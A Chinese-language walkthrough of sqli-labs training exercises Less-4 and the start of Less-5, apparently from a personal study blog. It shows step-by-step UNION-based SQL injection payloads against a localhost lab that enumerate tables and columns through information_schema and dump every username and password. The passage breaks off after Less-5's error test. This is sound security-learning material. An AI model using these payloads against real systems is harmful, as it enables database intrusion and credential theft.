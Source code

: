 # Less-4
**验证注入点：双引号报错，两个双引号闭合利用闭合方式：`") <payload> --+`**
也是闭合符号不一样
1.进入第四题，显示`Please input the ID as parameter with numeric value`，告诉了我们参数为**id**
![Pasted image 20250313165443](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250313165443.png)
2.构造`?id=1`,页面显示正常
![Pasted image 20250313165519](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250313165519.png)
3.接下来加个双引号，显示语句出错，根据报错信息可以得知参数`id`的值被**双引号和括号**包裹
![Pasted image 20250313165632](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250313165632.png)
4.构造`?id=1") order by 3 --+`通过order by子句来判断该数据表的字段数,页面显示正常
构造`?id=1") order by 4 --+`页面报错，由此可知该表字段数为3
```
http://localhost/sqli-labs/Less-4/?id=1") order by 3 --+
```
![Pasted image 20250313165810](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250313165810.png)
5.构造`?id=-1") union select 1,2,3 --+`判断出回显点为该**表的第二、三字段**
![Pasted image 20250313165912](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250313165912.png)
6.构造`?id=-1") union select 1,2,database() --+`知道了**数据库名为security**
```php
http://localhost/sqli-labs/Less-4/?id=-1") union select 1,2,database() --+
```
![[Pasted image 20250313170055.png]]
7.构造
```php
?id=-1") union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security' --+
```
在数据库information_schema中的tables表里查询出security数据库的表有：**emails,referers,uagents,users**
![Pasted image 20250313170137](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250313170137.png)
8.构造
```
?id=-1") union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users' --+
```
在数据库information_schema中的columns里查找出**数据库security中的users表的全部字段**
![Pasted image 20250313170217](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250313170217.png)
9.构造
```php
?id=-1") union select 1,group_concat(username),group_concat(password) from users --+
```
**爆出所有的用户名和密码**
![Pasted image 20250313170255](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250313170255.png)
# Less-5
**验证注入点：单引号报错，两个单引号闭合利用闭合方式：`' <payload> --+`
考察点：报错注入**
1.进入第五题，显示`Please input the ID as parameter with numeric value`，告诉了我们参数为**id**
![Pasted image 20250313170335](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250313170335.png)
2.构造`?id=1`,页面显示`You are in...........`，不再像前4题显示`name`和`passwd`
```
http://localhost/sqli-labs/Less-5/?id=1
```
![Pasted image 20250313170403](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/Pasted%20image%2020250313170403.png)
3.接下来加个单引号，显示语句出错，根据报错信息可以得知参数**id**的值被**单引号**包裹
```
http://localhost/sqli-labs/Less-5/?id=1'
```